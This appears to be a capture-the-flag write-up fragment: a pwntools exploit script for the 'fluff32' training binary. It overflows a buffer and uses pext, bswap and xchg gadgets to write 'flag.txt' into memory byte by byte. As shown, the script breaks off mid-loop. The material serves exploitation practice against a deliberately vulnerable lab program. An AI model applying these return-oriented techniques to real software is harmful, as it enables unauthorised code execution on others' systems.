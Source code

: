 Final exploit script:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./fluff32"
p = process(PROG_NAME)
elf = p.elf

if args.ATTACH:
    gdb.attach(p, '''break main''')

CONST = 0xb0bababa
BITS_IN_CHAR = 8
BITS_IN_32BIT_REG = 32

data_addr = 0x0804a018
pop_bswap_ecx_addr = 0x08048558     # pop ecx; bswap ecx; ret;
pop_ebp_addr = 0x080485bb           # pop ebp; ret;
mov_ebp_pext_addr = 0x08048543      # mov eax, ebp; mov ebx, 0xb0bababa; pext edx, ebx, eax; mov eax, 0xdeadbeef; ret;
xchg_ptr_ecx_dl_addr = 0x08048555   # xchg BYTE PTR [ecx], dl; ret;

# generates a mask such that when it is used for a `pext`
# instruction on the data, we get the original character back
# "c" is an 8 bit character
# "data" is a 32 bit integer
def generate_mask(c, data):
    c = ord(c)
    mask = 0
    c_i = d_i = 0

    while c_i < BITS_IN_CHAR and d_i < BITS_IN_32BIT_REG:
        c_bit = 1 << c_i
        d_bit = 1 << d_i

        # we will only set 8 mask bits, for each bit
        # of the character.
        # this will be whenever we find a char bit
        # matching the data bit (both 1s or both 0s),
        # because we know that whenever we encounter this 
        # bit in the data, we want to keep it as part of
        # the final char output of `pext`

        if (c & c_bit) and (data & d_bit):
            mask |= d_bit
            c_i += 1
        elif not ((c & c_bit) or (data & d_bit)):
            mask |= d_bit
            c_i += 1
        d_i += 1

    return mask

p.recvuntil(b'> ')
payload = b'A' * (0x28 + 0x4)

for i, c in enumerate('flag.txt'):
    # build our string, 1 char at a time
    payload += p32(pop_bswap_ecx_addr)
    payload += p32(data_addr+i, endian='big')
    payload += p32(pop_ebp_addr)
    payload += p32(generate_mask(c, CONST))
```